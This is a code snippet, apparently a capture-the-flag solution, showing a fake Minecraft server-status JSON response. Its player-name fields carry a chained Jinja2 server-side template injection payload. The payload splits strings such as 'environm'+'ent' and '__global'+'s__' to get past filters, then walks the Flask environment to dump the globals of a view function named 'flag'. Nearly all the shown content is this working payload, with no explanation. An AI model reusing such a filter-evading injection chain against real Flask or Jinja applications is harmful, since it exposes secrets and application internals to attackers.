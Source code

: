 ```js
            {
                "name": "{%set e='ext'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d229"
            },
            {
                "name": "{%set f=a[b+c+d+e]%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d230"
            },
            {
                "name": "{%set g='environm'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d231"
            },
            {
                "name": "{%set h='ent'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d232"
            },
            {
                "name": "{%set i=f[g+h]%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d233"
            },
            {
                "name": "{%set j=i.app%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d234"
            },
            {
                "name": "{%set k='view_f'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d235"
            },
            {
                "name": "{%set l='unctions'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d236"
            },
            {
                "name": "{%set m=j[k+l] %}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d237"
            },
            {
                "name": "{%set n=m.flag%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d238"
            },
            {
                "name": "{%set o='__global'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d239"
            },
            {
                "name": "{%set p='s__'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d240"
            },
            {
                "name": "{{n[o+p]}}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d241"
            }
        ]
    },
    "description": {
        "text": "\u00a7kXXX\u00a7r \u00a72Fake MC Server!\u00a7r \u00a74Can't touch this!\u00a7r \u00a7kXXX\u00a7r"
    },
    "favicon": "data:image/png;base64,<data>"
}
```

